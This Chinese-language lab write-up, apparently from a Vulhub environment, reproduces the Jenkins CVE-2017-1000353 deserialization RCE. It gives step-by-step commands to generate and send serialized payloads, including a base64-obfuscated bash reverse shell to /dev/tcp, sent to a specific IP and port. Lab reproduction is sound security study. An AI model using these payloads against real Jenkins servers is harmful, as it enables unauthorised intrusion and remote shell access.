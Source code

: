 # Jenkins-CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

参考阅读 https://blogs.securiteam.com/index.php/archives/3171

## 环境搭建

Vulhub执行如下命令启动jenkins 2.46.1：

```
docker-compose up -d
```

等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

## 漏洞复现

### 一、命令执行

#### 生成序列化字符串

参考https://github.com/vulhub/CVE-2017-1000353，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

#### 发送数据包，执行命令

下载[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![img](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/1-168180280232532.png)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![img](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/2-168180280232533.png)

### 二、反弹shell

#### 生成序列化字符串

执行下面命令，生成字节码文件 p.ser：

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar p.ser "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```

#### 发送数据包，接收反弹shell

```
python CVE-2017-1000353.py http://39.106.155.180:11314/ p.ser
```

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20240327090427931.png)

成功接收反弹shell：

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20240327090742675.png)
